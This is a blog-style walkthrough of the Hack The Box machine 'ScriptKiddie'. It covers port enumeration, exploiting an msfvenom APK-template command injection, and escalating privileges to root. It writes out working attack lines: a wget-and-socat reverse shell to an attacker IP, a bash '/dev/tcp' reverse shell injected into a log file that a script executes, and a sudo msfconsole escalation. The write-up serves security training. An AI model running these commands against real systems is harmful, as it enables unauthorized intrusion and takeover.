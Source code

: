 ```yaml
---
layout: post
title: ScriptKiddie
published: false
---
```


**ScriptKiddie is an easy machine from Hack The Box.**

### Enumeration

I'll start with a quick `nmap` scan to enumerate open ports.
`nmap -sC -sV -oN nmap/basic scriptkiddie.htb`

Pretty barebones machine, only ports 22 and 80 are open.
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I'll run a couple `gobuster` searches in the background while I check out the webserver but I'm not going to find anything.

The webpage appears to have a few different functionalities. Seems like it will run an nmap scan, create msfvenom payloads or search via searchsploit for user inputs.
![Webpage](https://user-images.githubusercontent.com/60187707/120905511-1fcd6000-c618-11eb-84a6-366d172a44fb.png)

### Initial Foothold
After searching for information about the backend system, I found an RCE script for Werkzeuk but does not seem to work as the debugging function in question is not enabled on the server.
![Pasted image 20210603130610](https://user-images.githubusercontent.com/60187707/120905665-4213ad80-c619-11eb-8fe3-241bcfae6cd0.png)

The `msfvenom` widget has Android templates as an optional file upload and, after a bit of googling, found [this script.](https://packetstormsecurity.com/files/161200/Metasploit-Framework-6.0.11-Command-Injection.html)

Essentially, it exploits a vulnerability in `msfvenom` that will execute a payload hidden inside a `.apk` template. Use `apk.py` to generate the malicious package.
![Pasted image 20210604102216](https://user-images.githubusercontent.com/60187707/120905729-b5b5ba80-c619-11eb-899b-de82a6a4ec47.png)

I tried a few various bash reverse shells as my payload, but using `socat` was what got me onto the machine.
`wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444
`
![Pasted image 20210604101927](https://user-images.githubusercontent.com/60187707/120905760-e695ef80-c619-11eb-92a8-b21eb382e9e2.png)
I am on as the user `kid`.

#### Privesc
I do some poking around the filesystem, run `linPEAS`, and find indications of a possible `sudo` vulnerability, but that ended up being a dead-end.

Inside the user `pwn` directory, there is a script called `scanlosers.sh`. As far as I can tell, the script takes data from the file `/home/kid/logs/hackers` to run an `nmap` command.
![Pasted image 20210604121547](https://user-images.githubusercontent.com/60187707/120905835-789df800-c61a-11eb-8ea6-82ec65f9caf2.png)

I can write to `hackers` because `kid` is the owner.
![Pasted image 20210604121933](https://user-images.githubusercontent.com/60187707/120905840-8489ba00-c61a-11eb-9f3a-5468e8dd6589.png)

So, I'll start a listener and `echo` a reverse shell into `hackers`, with a `;` at the beginning to start a new command and a `#` at the end to comment out the rest of the script.
`echo "  ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1' #" >> hackers`

![Pasted image 20210604122051](https://user-images.githubusercontent.com/60187707/120905898-d7fc0800-c61a-11eb-851d-4222c175fb13.png)
Now, I'm on as user `pwn`.

Run a quick `sudo -l` to check `pwn`'s permissions.
![Pasted image 20210604122204](https://user-images.githubusercontent.com/60187707/120905913-f4984000-c61a-11eb-89c4-dbd399b3a703.png)
I can run `msfconsole` as `root` without a password. Seems promising!

Checking the `msfconsole` help page, I find a `-x` flag that will execute console commands. Could it be that easy?
`sudo msfconsole -x su`
![Pasted image 20210604122329](https://user-images.githubusercontent.com/60187707/120905920-04178900-c61b-11eb-9dfc-d12292cab333.png)

Apparently!
